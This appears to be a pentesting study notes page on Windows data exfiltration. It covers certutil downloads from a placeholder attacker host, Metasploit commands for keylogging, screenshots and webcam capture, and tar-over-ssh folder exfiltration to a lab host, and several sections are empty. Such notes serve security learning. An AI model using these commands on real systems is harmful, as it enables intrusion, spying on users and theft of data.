

# Windows

<figure><figcaption></figcaption></figure>

## How to use Data Exfiltration

There are three primary use case scenarios of data exfiltration, including:

1. Exfiltrate data
2. Command and control communications.
3. Tunneling

Traditional Data Exfiltration

<figure><figcaption></figcaption></figure>

C2 Communications

<figure><figcaption></figcaption></figure>

Tunneling

<figure><figcaption></figcaption></figure>

## Python web server

Attacker computer

```bash
python -m SimpleHTTPServer 80 : use port that is not used  
```

```bash
python3 -m http.Server 80
```

## Certutil  Download from target (Win Only)

```bash
certutil -urlcache -f http://attackeraddress/filename <fileNameWhenDownloaded>    
```

| Part                              | Purpose                                               |
| --------------------------------- | ----------------------------------------------------- |
| `certutil`                        | Built-in Windows utility for cert management (LOLBIN) |
| `-urlcache`                       | Uses the URL cache functionality to fetch the file    |
| `-f`                              | Force download even if cached                         |
| `http://attackeraddress/filename` | Remote URL of the payload or file                     |
| `<fileNameWhenDownloaded>`        | Name to save the file as on disk                      |


imporant when we dont have a meterpreter seassion and we need to download or upload files using the system unitilitys services.


## Metasploit commands

| Command                          | Function                                                 |
| -------------------------------- | -------------------------------------------------------- |
| `download /path/to/file`         | Downloads a specific file from the target                |
| `upload /local/file`             | Uploads a file to the target                             |
| `search -f *.docx`               | Finds files (e.g., `*.docx`, `*.xlsx`, `passwords.txt`)  |
| `cat /path/to/file`              | View file content inline                                 |
| `screenshot`                     | Take a screenshot of the user’s desktop                  |
| `keyscan_start` / `keyscan_dump` | Start and dump keystrokes                                |
| `record_mic` / `webcam_snap`     | Record audio or take webcam shots (if permissions allow) |

## SSH Exfiltration

Default

```bash
tar cf - task5/ | ssh user@ip "cd /tmp/; tar xpf -"
```

Custom Port

```bash
tar cf - FolderName/ | ssh -p 2222  user@ip "cd /tmp/; tar xpf -"
```

#### Step-by-step explanation:

1. **`tar cf - task5/`**
   * `tar` is used for creating and extracting archives.
   * `c` → **create** a new archive.
   * `f -` → output to **stdout** (the `-` means “write to standard output” instead of a file).
   * `task5/` → the folder you want to archive.
   * **Result:** a tarball of `task5/` is sent to stdout.
2. **`|` (pipe)**
   * This takes the stdout from the `tar` command (the archive data) and sends it as stdin to the next command.
3. **`ssh thm@jump.thm.com "cd /tmp/; tar xpf -"`**
   * `ssh thm@jump.thm.com` → connects to the remote host `jump.thm.com` as user `thm`.
   * `"cd /tmp/; tar xpf -"` → this is the command executed on the remote machine:
     * `cd /tmp/` → change directory to `/tmp/`.
     * `tar xpf -` → extract the archive received from stdin (`-` means stdin):
       * `x` → extract.
       * `p` → **preserve permissions**.
       * `f -` → read archive from stdin.

## &#x20;Icmpdoor



<figure><figcaption></figcaption></figure>

## Dns Exfiltration

## HTTP Exfiltration


